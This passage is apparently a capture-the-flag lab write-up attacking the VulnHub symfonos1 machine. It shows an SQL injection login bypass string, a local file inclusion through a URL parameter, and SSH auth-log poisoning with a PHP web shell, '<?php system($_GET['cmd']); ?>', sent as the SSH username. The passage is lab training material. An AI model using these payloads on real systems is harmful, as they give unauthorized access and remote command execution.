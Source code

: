 ```
```

cool we got some hidden dirs, let's check out the `atlantis.php` dir first.

![image](https://user-images.githubusercontent.com/87468669/219975037-57294324-f637-41e7-98e3-ac6f4ab8021b.png)

we got a login page, let's try out sqli auth bypass. `admin or 1=1-- `& password `passwd`.

![image](https://user-images.githubusercontent.com/87468669/219975244-5cad795a-d1f3-425f-8966-001ba31948b3.png)

cool we bypassed auth and got redirected to a `sea.php` dir and we can see the url parameter which looks like a potential lfi. let's check the `god` dir.

![image](https://user-images.githubusercontent.com/87468669/219975341-d9d5367b-fe89-4104-977e-bc60ec578fc4.png)

we can see some `.log` files, let's download this files and check their content.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnhub/symfonos1]
└─$ wget http://192.168.0.100/gods/hades.log       
--2023-02-19 22:11:19--  http://192.168.0.100/gods/hades.log
Connecting to 192.168.0.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 295
Saving to: ‘hades.log’

hades.log                                 100%[===================================================================================>]     295  --.-KB/s    in 0s      

2023-02-19 22:11:19 (12.1 MB/s) - ‘hades.log’ saved [295/295]

                                                                                                                                                                      
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnhub/symfonos1]
└─$ cat hades.log        
Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.
                                                                                                                                                                      
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnhub/symfonos1]
└─$ 
```

it is the same content we got from the sea.php dir, let's test for lfi.

![image](https://user-images.githubusercontent.com/87468669/219976602-a31c4a8a-5890-412f-a489-6a99f20c28cc.png)

cool we got the `auth` log file, this is because if we could remember there was a `.log` extension appended to the all the files in the `/god` dir. Now let's do log poisonning

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnhub/symfonos1]
└─$ ssh '<?php system($_GET['cmd']); ?>'@192.168.0.100
The authenticity of host '192.168.0.100 (192.168.0.100)' can't be established.
ED25519 key fingerprint is SHA256:ntMXt1jIeiDKNEuRMRXU6uCVo/fmwaEqmxDA5r4nwds.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.100' (ED25519) to the list of known hosts.
<?php system($_GET[cmd]); ?>@192.168.0.100's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@192.168.0.100's password: 
Permission denied, please try again.
<?php system($_GET[cmd]); ?>@192.168.0.100's password: 
<?php system($_GET[cmd]); ?>@192.168.0.100: Permission denied (publickey,password).
```
poison the auth log file through ssh. now we poisoned the log, let's check it on the web page 
